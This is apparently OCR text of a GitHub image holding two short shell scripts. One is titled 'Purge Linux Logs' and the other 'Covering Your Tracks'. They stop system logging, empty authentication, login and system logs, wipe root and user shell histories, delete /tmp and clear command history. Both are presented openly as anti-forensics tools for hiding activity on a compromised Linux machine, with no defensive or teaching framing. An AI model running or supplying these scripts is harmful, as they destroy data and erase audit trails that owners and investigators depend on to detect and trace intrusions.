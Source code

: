 SYSTEM CLEANUP
Purge Linux Logs
#!/bin/sh
​
/etc/init.d/sysklogd stop
VARLOGS="auth.log boot btmp daemon.log debug dmesg kern.log mail.info mail.log mail.warn messages syslog udev wtmp"
cd /var/log
for ii in $VARLOGS; do
  echo -n > $ii
  rm -f $ii.? $ii.?.gz
done
​
/etc/init.d/samba stop
rm -f /var/log/samba/*
​
rm -f /var/lib/dhcp3/*
​
for ii in /var/log/proftpd/* /var/log/postgresql/* /var/log/apache2/*; do
  echo -n > $ii
done
Covering Your Tracks
#!/bin/bash
echo "COVERING TRACKS"
echo  "clearing /var/log/auth.log"
echo "" > /var/log/auth.log
echo "clearing ~/.bash_history"
echo "" > ~/.bash_history
echo "clearing /root/.bash_history"
echo "" > /root/.bash_history
echo "removing ~/.bash_history"
rm ~/.bash_history -rf
echo "removing /tmp/"
rm -R /tmp/*
echo "clearing /var/log/messages"
echo "" > /var/log/messages
echo "clearing command history"
history -c
​

